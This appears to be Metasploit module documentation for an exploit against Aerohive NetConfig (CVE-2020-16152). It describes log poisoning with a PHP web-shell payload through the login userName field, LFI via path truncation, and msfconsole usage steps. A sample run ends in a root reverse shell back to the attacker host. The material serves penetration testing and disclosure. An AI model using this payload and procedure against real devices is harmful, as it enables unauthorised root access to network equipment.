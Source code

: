 ## Vulnerable Application
This module exploits LFI and log poisoning vulnerabilities (CVE-2020-16152) in Aerohive NetConfig, version 10.0r8a build-242466 and older
in order to achieve unauthenticated remote code execution as the root user.

NetConfig is the Aerohive/Extreme Networks HiveOS administrative webinterface. Vulnerable Aerohive NetConfig versions allow for LFI
because they rely on a version of PHP 5 that is vulnerable to string truncation attacks.

The module's `check` method attempts to obtain the Aerohive NetConfig version via a simple HTTP GET request to `/index.php5`.

If the target seems vulnerable based on the version, the module attempts to poison the `/tmp/messages` log file
via the POST parameter `userName` in an intentially failed login attempt to `/login.php5`.
The value of `userName` is set to a payload according to this format: `"<?php system($_POST['cmd']);?>"`.
Because failed login attempts are logged to `/tmp/messages` and include the submitted username,
the `/tmp/messages` log can be effectively poisoned in this manner.

Next, the module attempts to run code via `/tmp/messages` by means of an HTTP POST request to `action.php5`.
This request includes two POST parameters:
1. The `_page` parameter, which is the one vulnerable to LFI via path truncation.
2. The parameter that is used to execute commands via `/tmp/messages`.
In our example the name would be `cmd`, but the module sets this to an aribtrary value.

Aerohive runs an ARM-based version of Linux that is not compatible with most payloads.
However, the `cmd/unix/reverse_openssl` payload is fully reliable and allows for repeated exploitation.

The [original writeup](https://github.com/eriknl/CVE-2020-16152) notes that it is unclear if/when this issue was patched,
so versions after 10.0r8a may still be vulnerable.
Disclosure to the vendor occurred in early 2020 and while the vendor confirmed the problem,
they failed to inform the researcher about the timeline for fixing it.
As a result, the researcher ultimately released the details and PoC on their own
in September of last year. As of now, the CVE status is still `RESERVED`.

This module has been successfully tested against Aerohive NetConfig version 10.0r7a.

## Verification Steps
1. Start msfconsole
2. Do: `use exploit/unix/webapp/aerohive_netconfig_lfi_log_poison_rce`
3. Do: `set RHOSTS [IP]`
4. Do: `set LHOST [IP]`
5. Do: `exploit`

## Options
### TARGETURI
The base path to Aerohive NetConfig. The default value is `/`.

## Targets
```
Id  Name
--  ----
0   CMD
```

## Scenarios
### Aerohive NetConfig 10.0r7a
```
msf6 exploit(unix/webapp/aerohive_netconfig_lfi_log_poison_rce) > show options

Module options (exploit/unix/webapp/aerohive_netconfig_lfi_log_poison_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.1.39     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to Aerohive NetConfig
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_openssl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.66     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   CMD


msf6 exploit(unix/webapp/aerohive_netconfig_lfi_log_poison_rce) > run

[*] Started reverse double SSL handler on 192.168.1.66:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is Aerohive NetConfig version 10.0r7a
[*] Attempting to poison the log at /tmp/messages...
[*] Server responded as expected. Continuing...
[*] Attempting to execute the payload
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[!] In case of successful exploitation, this module requires manual cleanup of the log file at /tmp/messages
[!] Deleting this file may break the application, so it's advised to manually remove the line containing the poison command:
        <?php system($_POST['TEVwXm']);?>
[*] Command: echo rVKzZFZ3xozDeyYd;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "rVKzZFZ3xozDeyYd\n"
[*] Matching...
[*] A is input...
[*] Command shell session 8 opened (192.168.1.66:4444 -> 192.168.1.39:39029) at 2021-09-22 23:07:51 +0000

id
uid=0(root) gid=0(root)
```
